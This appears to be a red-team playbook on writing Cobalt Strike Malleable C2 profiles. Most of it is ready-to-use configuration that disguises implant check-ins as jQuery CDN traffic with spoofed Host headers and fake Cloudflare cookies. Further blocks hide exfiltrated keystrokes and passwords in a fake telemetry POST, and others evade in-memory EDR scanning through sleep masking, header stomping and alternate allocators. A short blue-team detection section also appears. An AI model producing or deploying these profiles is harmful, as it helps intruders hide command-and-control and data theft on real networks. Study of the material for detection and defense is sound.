

# Cobalt Strike Malleable C2 Profiles

## When to Use
- During high-tier Red Team operations where the target organization possesses advanced Network Traffic Analysis (NTA) or Deep Packet Inspection (DPI) firewalls (e.g., Palo Alto, Fortinet).
- When attempting to blend persistent Beacon traffic into the target environment's native noise (e.g., disguising C2 traffic as continuous Windows Defender telemetry or Google Analytics polling).
- To actively disable and evade in-memory scanning frameworks (e.g., Hunt-Sleeping-Beacons) by utilizing profile features like `sleep_mask` and `allocator`.

## Workflow

### Phase 1: Understanding Malleable C2

```text
# Concept: By default, Cobalt Strike Beacons "call home" using a highly predictable cryptographic 
# structure over standard HTTP. Antivirus vendors have perfectly signatured this default behavior.
# A Malleable C2 Profile is a configuration file (.profile) interpreted by the Team Server 
# that completely redesigns *how* the C2 traffic looks in transit and *how* the implant behaves in memory.
```

### Phase 2: Building the HTTP-GET Configuration (Camouflage)

```text
# Concept: We must disguise the Beacon "checking in" for tasks as a harmless user browsing a website.
# Let's disguise the traffic as a user interacting with jQuery on a CDN.

http-get {
    set uri "/jquery-3.3.1.min.js";    ## The beacon requests this specific file
    
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Host" "code.jquery.com";   ## Domain Fronting or spoofing Host header
        header "Referer" "http://code.jquery.com/";
        
        metadata {
            base64url;
            prepend "__cfduid=";
            header "Cookie";            ## The Beacon hides its unique ID inside a fake Cloudflare cookie
        }
    }
    
    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        
        output {
            base64;
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */\n\n";
            append "\n// End of jQuery code";
            print;                      ## The Team Server hides its encoded commands inside a fake jQuery script
        }
    }
}
```

### Phase 3: Building the HTTP-POST Configuration (Data Exfiltration)

```text
# Concept: When the Beacon needs to send stolen data (keystrokes, passwords, screenshots) 
# back to the server, it must be disguised.

http-post {
    set uri "/analytics/telemetry.php";
    
    client {
        header "Content-Type" "application/x-www-form-urlencoded";
        
        id {
            mask;
            base64url;
            parameter "session_token";
        }
        
        output {
            mask;
            base64url;
            print;                      ## We post the encrypted stolen data natively in the payload body
        }
    }
    
    server {
        header "Server" "Apache";
        
        output {
            print;                      ## The server responds with empty HTML to simulate a 200 OK acceptance
        }
    }
}
```

### Phase 4: In-Memory Evasion and Obfuscation

```text
# Concept: A perfect network profile is useless if the Endpoint AV scans the RAM and detects Cobalt Strike.
# Malleable C2 dictates how the reflective beacon allocates and behaves in memory.

stage {
    set userwx "false";                 ## CRITICAL: Do not allocate memory as RWX (Read/Write/Execute). EDRs kill RWX memory instantly.
    set stomppe "true";                 ## Overwrite the highly detectable "MZ" header of the PE file in memory
    set obfuscate "true";               ## Strip the beacon of debug strings and function names
    set cleanup "true";                 ## Erase the initial bootloader stub after the beacon starts executing
    set sleep_mask "true";              ## Encrypt the beacon entirely in memory while it sleeps, decrypting ONLY for a millisecond to execute
}

process-inject {
    set allocator "NtMapViewOfSection";  ## Evade standard VirtualAllocEx hooking
    set bof_allocator "VirtualAlloc";
}
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **SSL/TLS Decryption**: The only mathematical way to defeat sophisticated Malleable C2 impersonating HTTPS traffic is active TLS interception (Man-in-the-Middle on the corporate firewall). Once decrypted, defenders can build YARA rules scanning the actual payload body for Cobalt Strike's underlying AES/HMAC structures despite the Base64/prepend obfuscation.
- **Beacon Jitter Analysis**: Human analysts or Machine Learning models analyzing firewall logs for temporal patterns (Beaconing). Even if the payload perfectly mimics Amazon AWS, if the HTTP request occurs precisely every 30.5 seconds for 8 consecutive hours, it is a machine algorithm. (Red Teams counter this via high randomized `jitter` settings in the profile).
- **In-Memory YARA Scanning**: Despite `sleep_mask` and memory stomping, portions of the unencrypted thread stack or heap structures might remain in memory during short execution windows. Threat Hunters utilizing Volatility, PE-Sieve, or advanced EDR capabilities can sweep live RAM for signatured Cobalt Strike artifacts.

## Key Concepts
| Concept | Description |
|---------|-------------|
| C2 (Command and Control) | The infrastructure utilized by an attacker to instruct, manage, and extract data from compromised machines within a target network |
| Beacon | The malicious software implant deployed to the victim. It "calls home" (beacons out) to fetch tasks rather than listening for inbound connections, bypassing NAT and Firewall restrictions |
| Domain Fronting | An evasion technique masking the true destination of C2 traffic by routing an HTTPS request through a trusted CDN (like Cloudflare), hiding the attacker's actual server in the encrypted Host header |
| Jitter | The randomized percentage variance applied to beacon sleep intervals (e.g., A 60s sleep with 50% jitter will check in randomly between 30 and 90 seconds, breaking predictable timing signatures) |

## Output Format
```
Red Team C2 Architecture Proposal: Deep Obfuscation
===================================================
Tactic: Command and Control (TA0011)
Framework: Cobalt Strike 4.9

Description:
To facilitate persistent access mirroring the client's internal ecosystem, an advanced Malleable C2 profile has been authored to camouflage all egress network traffic.

The Target Environment's primary business operations utilize Slack. The Malleable C2 profile has been explicitly customized to emulate Slack Desktop Client WebSocket and HTTPS polling behavior.

Technical Specifications:
- Transports: HTTPS over TCP 443
- GET Format: Spoofed `api.slack.com/rtm.start` utilizing `Authorization: Bearer` headers to embed the 16-byte Beacon Session ID.
- POST Format: Spoofed `api.slack.com/api/chat.postMessage` utilizing JSON formatting. Exfiltrated data is masked and embedded inside the `text` JSON value field.
- In-Memory Defense: `userwx` Disabled, `sleep_mask` Enabled, mapping the active execution thread inside a legitimate spawned `svchost.exe` process (Process Hollowing).

Impact:
Extensive evasion of the client's Palo Alto Next-Gen Firewall. Encrypted traffic metrics perfectly match standard corporate communication flows, rendering the implant undetectable by signature-based or volumetric IDS sensors.
```

## References
- Cobalt Strike: [Malleable C2 Profiles Guide](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_main.htm)
- Raphael Mudge: [Advanced Threat Tactics: Infrastructure](https://www.youtube.com/watch?v=5sq2q_Ek4g8)
- GitHub (threatexpress): [Malleable C2 Reference Profiles](https://github.com/threatexpress/malleable-c2)
